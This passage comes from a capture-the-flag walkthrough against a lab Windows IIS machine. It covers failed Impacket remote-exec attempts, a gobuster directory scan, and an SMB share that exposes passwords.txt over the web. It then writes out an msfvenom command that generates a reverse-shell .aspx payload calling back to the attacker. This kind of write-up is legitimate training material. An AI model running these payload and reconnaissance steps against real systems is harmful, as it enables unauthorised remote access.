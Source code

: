 Ok then. I wonder if **atexec.py** or **smbexec.py** will work:

```
[-] Unknown DCE RPC fault status code: 00000721

[-] rpc_s_access_denied
```

No and no. **psexec.py** also does not work. Time to explore the websites and see what we can find there.

<br>

## Website Digging

Looking at the website shows a default IIS page:

<br>

![](/images/relevant1.png)

<br>

I check for **robots.txt** and also run a full **gobuster** scan but can't find anything else useful on the port 80 website.

Looking at the website on port 49663 also just shows the default IIS page.

Running **gobuster** on the port 49663 website shows the following though:

`gobuster dir -u http://10.10.36.80:49663 -t 50 -r -w dir-med.txt`

```
/nt4wrksv             (Status: 200) [Size: 0]
```

Interesting. That's the same name as the SMB share we came across earlier.

Let's see if we can access the SMB share via the website. I try to point my web browser at the directory and it comes up blank, but if I try and point it at the passwords.txt file we saw in the SMB share earlier it displays!

<br>

![](/images/relevant2.png)

<br>

So we have an SMB share that's open and accessable via the web. I don't know about you but that seems like a great security practice!

Let's try and upload a reverse shell from the command line that we can then trigger through the web browser.

Since this is a Windows machine I use **msfvenom** to create a reverse **.aspx** shell:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MY IP> LPORT=4444 -f aspx -o shell.aspx`

And then connect back over to the SMB share and upload it:
